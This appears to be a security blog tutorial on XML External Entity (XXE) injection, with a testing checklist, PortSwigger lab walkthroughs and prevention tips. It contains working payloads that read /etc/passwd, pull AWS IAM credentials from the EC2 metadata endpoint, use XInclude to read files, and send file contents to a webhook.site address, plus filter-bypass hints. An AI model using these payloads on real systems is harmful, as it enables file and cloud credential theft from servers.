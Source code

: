 ```yaml
---
layout: post
title: XXE (XML External Entities) Injection
subtitle: How malicious user can abouse External Entities to perform XXE
date: 2025-07-30 12:43
author: Ren Sie
comments: true
category: injection
thumbnail-img: /assets/img/githubpost/xxe_thumb.png
share-img: /assets/img/Post_Cover.png
---
```

The method isn’t as popular as others because of the patches. But if comes across with application that access and passing XML, worth trying!

{: .box-note}
**Note:** 💡 Try pass XML data to API endpoint. They sometimes accept XML data besides JSON data.

### XML
Some Apps use XML to transfer data. XML has its default entities, which define the way of representing data or special characters. For instance: 
- `&amp;` → `&`
- `&lt;` → `<`
- `&gt;` → `>`

#### **External Entities**
By default, XML has predefined entities to represent special symbols (like `&lt;` for `<`), but **XML External Entities (XXE)** allow users to define **custom entities**. These custom entities can reference **external resources**, such as _local files_ or _external URLs_. This flexibility can be exploited to read sensitive files on the server, or run RCE.  
They can be defined using the `<!ENTITY>` syntax in XML like this:
~~~
xml:
<!ENTITY entity_name SYSTEM "path_to_file_or_url">
~~~
An example of malicious XML can be:
The entity `xxe` in the `creds` document reference the `/etc/passwd`. When the file path (external URL) is passed, it will be places at `&xxe;`.
~~~
xml:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds><user>&xxe;</user><password>pass</password></creds>
~~~

### Checklist
<details markdown="1">
  <summary>Click me to expand checklist</summary>  

#### Objective

1. **Identify endpoints that can process XML**
   - Send test requests with XML payloads and set Content-Type to `application/xml` or `text/xml`.
   - Inspect response content: `Content-Type: application/xml` or `Content-Type: text/xml` as accepted request headers.

2. **Create a working XML payload that can be adapted to deliver exploits**
   - First create a valid XML structure that the application accepts.
   - Then modify it with malicious content tailored to target the application's XML processing logic.

3. **Test identified endpoints for XXE**

#### Attack surface discovery

1. **Identify endpoints that accept XML payloads**
   - Review requests in proxy for XML data (e.g., Burp Suite).
   - Identify endpoints that accept JSON by sending XML.
   - Identify endpoints that accept images by sending SVG images.
   - Identify endpoints that accept documents by sending DOCX or PDF files.

2. **Test with the header Content-Type: application/xml**

3. **Verify working XML payloads that can be adapted to deliver exploits**
   - Confirm the endpoint accepts and processes XML.
   - Inject harmless modifications to observe behavior changes.

4. **Locate internal DTDs**  
   - <!DOCTYPE ...> that contains `[internal subset]`, `[internal declaring elements]`, `[internal declaring entities]`, or `[attribute rules]`  
  
#### Testing

1. **Test for external entities with a simple non-malicious payload**
   - <!ENTITY harmless SYSTEM "http://example.com/">
   - If the server processes external entities, it will fetch the contents from example.com

2. **Test for external entities with an available file**
   - <!ENTITY password SYSTEM "file:///etc/passwd">

3. **Test for external entities with an available endpoint we control**
   - [Webhook](https://webhook.site/)

4. **Test for external entities with other available endpoints**
   - <!ENTITY ext SYSTEM "http://internal-api.local/admin">

5. **EC2 metadata endpoint http[://]169.254.169.254/latest/meta-data**
   - [Access instance metadata for an EC2 instance](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)  

6. **Test filters and restrictions**
   - Send common disallowed characters or keywords (e.g., `<`, `<!DOCTYPE>`, `$`, `SYSTEM`, `ENTITY`)
   - Bypass filters using encoding or obfuscation (e.g., URL encoding, Unicode encoding, base64 encoding, null byte insertion, or alternate whitespace characters)
   - Trigger error messages to exfiltrate information (e.g., `<!DOCT`)
   - Nested Parameter Entities with External Payload (e.g., <!ENTITY external_dtd SYSTEM "http://example.com/payload.dtd">)
   - Splitting Payload Across Multiple Parameters

7. **Test for denial of service**
   - [Billion laughs](https://en.wikipedia.org/wiki/Billion_laughs_attack)

8. **Test for code execution**
   - Tag Injection
  
#### Impact

1. **Can we read sensitive files?**
   - Configuration files (e.g., `/etc/passwd`)
   - System files (e.g., `/etc/shadow`)
   - SQLite files
   - SSH keys (e.g., `~/.ssh/id_rsa`)

2. **Can we exfiltrate sensitive information?**
   ```xml
   <?xml version="1.0" encoding="UTF-8"?>  
   <!DOCTYPE foo [  
     <!ENTITY xxe SYSTEM "file:///etc/passwd">  
     <!ENTITY % remote SYSTEM "https://webhook.site/?data=%xxe;">  
     %remote;
   ]>
   <foo>&xxe;</foo>
   ```

3. **Can we achieve code execution?**  
  
</details>

### Labs
Just for demostration, I completed a few labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#xml-external-entity-xxe-injection) to show how this vulnerability can lead to:
#### 1. Exploiting XXE using external entities to retrieve files  
I captured and modified `POST /product/stock` with Burp Repeater. Adding the `!DOCTYPE element` that defines an external entity containing the path to the file `etc/passwd`.
   ~~~
   <?xml version="1.0" encoding="UTF-8"?>  
   <!DOCTYPE test [  
   <!ENTITY xxe SYSTEM "file:///etc/passwd">  
   ]>  
   <stockCheck><productId>&xxe;</productId><storeId>2</storeId></stockCheck>  
   ~~~
   > Response:  
   > "Invalid product ID: root:x:0:0:root:/root:/bin/bash  
   > daemon:x:1:1 : daemon :/usr/sbin:/usr/sbin/nologin  
   > bin:x: 2:2 :bin:/bin:/usr/sbin/nologin  
   > sys:x: 3:3 : sys : /dev:/usr/sbin/nologin  
   > sync:x: 4:65534 : sync:/bin:/bin/sync  
   > www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin  
   > backup:x: 34:34 :backup:/var/backups:/usr/sbin/nologin  
   > apt:x:100:65534 :: /nonexistent:/usr/sbin/nologin  
   > peter:x:2001:2001 :: /home/peter:/bin/bash  
   > dnsmasq:x:101:65534 :dnsmasq, ,,:/var/lib/misc:/usr/sbin/nologin  
   > messagebus:x:102:101 :: /nonexistent:/usr/sbin/nologin
   
#### 2. Exploiting XXE to perform SSRF attacks  
I captured and modified `POST /product/stock` with Burp Repeater. Adding the `!DOCTYPE element` that defines an external entity `test` to access EC2 instance metadata. More details about what _EC2 instance metadata_ is, visit [Access instance metadata for an EC2 instance](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)
   ~~~
   < ?xml version="1.0" encoding="UTF-8"?>  
   < !DOCTYPE test [  
   < !ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data">  
   ]>  
   < <stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>  
   ~~~
   > Response: It tells us there's an "iam" entity inside  
   > "Invalid Product ID:  
   > iam"
   
   ~~~
   < ?xml version="1.0" encoding="UTF-8"?>  
   < !DOCTYPE test [  
   < !ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam">  
   ]>
   < <stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>
   ~~~
   > Response: It tells us there's an "security-credentials" entity inside  
   > "Invalid Product ID:  
   > security-credentials"

   ~~~
   < ?xml version="1.0" encoding="UTF-8"?>  
   < !DOCTYPE test [  
   < !ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">  
   ]>  
   < <stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>  
   ~~~
   > Response: It tells us there's an "admin" entity inside  
   > "Invalid Product ID:  
   > admin"  
   
   ~~~
   < ?xml version="1.0" encoding="UTF-8"?>  
   < !DOCTYPE test [  
   < !ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">  
   ]>  
   < <stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>  
   ~~~
   > Response: We retrieves admin's access key
   > "Code":"Success",  
   > "LastUpdated":"2021-11-15T11:29:31.956206Z",  
   > "Type":"AWS-HMAC",  
   > "AccessKeyId":"BordnBx2QrCdt7VGVWT3",  
   > "SecretAccessKey":"yBZJPYWjn4XFnBLk3fqe305Fqdc7YT3SUs4vomxF",  
   > "Token":"kMW7yE0Z00lCE8zoDhS1rjX0vRBQG0EepbmRtzxmyzW0g8QtJ4j",  
   > "Expiration":"2027-11-14T11:29:31.956206Z"  

{: .box-note}
**Note:** 💡SSRF exploits a server's request-making functionality, allowing user to make a crafted request that pivots from the public-facing application and uses the server's trusted internal network position to scan, access, and exfiltrate data from otherwise unreachable backend services and cloud metadata endpoints.

#### 3. Exploiting XInclude to retrieve files  
   I identified the server-side xml parser by studying `GET /product?productId=3` on Burp Proxy. Insert the `Xinclude namespace` and the filepath to `POST /product/stock` on Repeater.
   ~~~
   productId=<test  
   xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/>  
   </test>&storeId=2
   ~~~
   > Response:  
   > "Invalid product ID: root:x:0:0:root:/root:/bin/bash  
   > daemon:x:1:1 : daemon :/usr/sbin:/usr/sbin/nologin  
   > bin:x: 2:2 :bin:/bin:/usr/sbin/nologin  
   > sys:x: 3:3 : sys : /dev:/usr/sbin/nologin  
   > sync:x: 4:65534 : sync:/bin:/bin/sync  
   > www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin  
   > backup:x: 34:34 :backup:/var/backups:/usr/sbin/nologin  
   > apt:x:100:65534 :: /nonexistent:/usr/sbin/nologin  
   > peter:x:2001:2001 :: /home/peter:/bin/bash  
   > dnsmasq:x:101:65534 :dnsmasq, ,,:/var/lib/misc:/usr/sbin/nologin  
   > messagebus:x:102:101 :: /nonexistent:/usr/sbin/nologin

{: .box-note}
**Note:** 💡XInclude is used to bypass DTD-based Mitigation in this instance, If the application is blocking <!DOCTYPE>, an XInclude might still succeed.

### Prevention
1. Disable XML external entity
2. Use JSON instead of XML
3. Validate and Sanitize XML Input (with XSD)
4. Restrict Network/File Access (OS or Container Level)

### Also Read
[WSTG - Testing for XML Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/07-Testing_for_XML_Injection)
